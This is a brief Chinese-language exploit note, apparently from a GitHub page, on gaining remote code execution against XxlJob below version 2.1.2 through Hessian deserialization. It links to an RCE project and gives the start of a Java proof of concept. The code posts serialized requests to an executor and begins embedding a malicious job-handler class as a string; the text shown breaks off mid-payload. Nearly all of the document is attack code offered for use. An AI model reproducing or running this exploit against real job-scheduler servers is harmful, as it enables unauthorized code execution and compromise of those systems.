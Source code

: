 ## 1、XxlJob<2.1.2，需要利用 Hessian 触发。

参考这个项目即可 RCE  
[https://github.com/OneSourceCat/XxlJob-Hessian-RCE](https://github.com/OneSourceCat/XxlJob-Hessian-RCE)

```bash
package com.example;

import com.xxl.job.core.biz.model.TriggerParam;
import com.xxl.rpc.remoting.net.params.XxlRpcRequest;

import com.xxl.rpc.serialize.impl.HessianSerializer;
import org.asynchttpclient.AsyncCompletionHandler;
import org.asynchttpclient.AsyncHttpClient;
import org.asynchttpclient.DefaultAsyncHttpClient;
import org.asynchttpclient.Response;

import java.io.IOException;
import java.util.Date;

public class App {

    private static void sendData(String url, byte[] bytes) {
        AsyncHttpClient c = new DefaultAsyncHttpClient();

        try{
            c.preparePost(url)
            .setBody(bytes)
            .execute(new AsyncCompletionHandler<Response>() {
                @Override
                public Response onCompleted(Response response) throws Exception {
                    System.out.println("Server Return Data: ");
                    System.out.println(response.getResponseBody());
                    return response;
                }

                @Override
                public void onThrowable(Throwable t) {
                    System.out.println("HTTP出现异常");
                    t.printStackTrace();
                    super.onThrowable(t);
                }
            }).toCompletableFuture().join();

            c.close();
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            try {
                c.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }


    }

    public static void main( String[] args ) throws Exception {

        String code = "package com.xxl.job.service.handler;\n" +
                "\n" +
                "import com.xxl.job.core.log.XxlJobLogger;\n" +
```